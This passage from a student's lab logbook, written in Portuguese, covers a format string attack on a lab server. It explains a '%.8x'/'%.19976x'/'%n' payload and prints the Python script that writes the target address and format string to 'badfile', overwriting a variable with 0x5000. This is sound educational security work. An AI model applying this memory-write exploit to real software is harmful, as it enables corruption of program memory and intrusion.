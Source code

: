A técnica utilizada baseou-se no uso de modificadores de precisão em conjunto com format specifiers. Especificamente, a string de formatação construída foi:

- "%.8x" * 62: Imprime 62 blocos de 8 dígitos hexadecimais cada, consumindo 496 caracteres.
- "%.19976x": Imprime mais 19976 caracteres, totalizando 20472 caracteres adicionais.
- "%n": Escreve o número total de caracteres impressos (20480 = 20472 + 8 caractéres do endereço) no endereço da variável target (0x080e5068).
O payload gerado foi armazenado em um arquivo chamado badfile, contendo o endereço da variável target, seguido pela string de formatação.

Esse método permitiu a modificação do valor da variável target para 0x5000, conforme evidenciado no output do servidor, validando assim o sucesso da exploração.

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*62 + "%.19976x" + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

Compilámos o script build_string.py e enviámos o payload para o servidor:

![Figura 15](/Images/LOGBOOK6/Task3B_image1.png)

Observámos a consola do container para verificar o output da stack. A saída do container confirma que o valor original da variável target (0x11223344) foi alterado para 0x5000.

